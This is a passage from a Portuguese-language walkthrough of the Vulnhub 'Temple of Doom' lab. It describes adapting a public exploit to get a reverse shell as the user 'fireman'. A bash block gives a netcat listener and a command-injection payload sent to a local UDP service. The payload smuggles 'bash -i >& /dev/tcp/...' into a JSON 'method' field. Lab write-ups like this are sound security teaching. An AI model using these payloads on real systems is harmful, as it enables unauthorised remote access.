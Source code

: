 

O exploit explica como funciona essa vulnerabilidade e exibe a prova de conceito. Ja que temos um exemplo vamos adapta-lo para a nossa realidade

![](/assets/img/Vulnhub/TempleOfDoom/nodeadmin-exploit43006.png)



# Usuario "fireman"

## Shell Reverso

Utilizando a prova de conceito do exploit como exemplo fiz da mesma forma alterando somente o comando que seria executado. Antes disso deixei a porta escutando na kali. Conseguimos receber o shell do usuario **fireman**

```bash
# Kali
rbscheat -i 192.168.110.3:4444 -l bash # Para gerar o comando do shell reverso
bash # Invocar o bash para melhoria do shell porteriormente
nc -lnvp 4444 # Deixar a porta escutando na maquina para receber o shell

# Alvo
nc -u 127.0.0.1 8839
add: {"server_port":8003, "password":"test", "method":"||bash -i >& /dev/tcp/192.168.110.3/4444 0<&1||"}
```

![](/assets/img/Vulnhub/TempleOfDoom/fireman-shell.png)
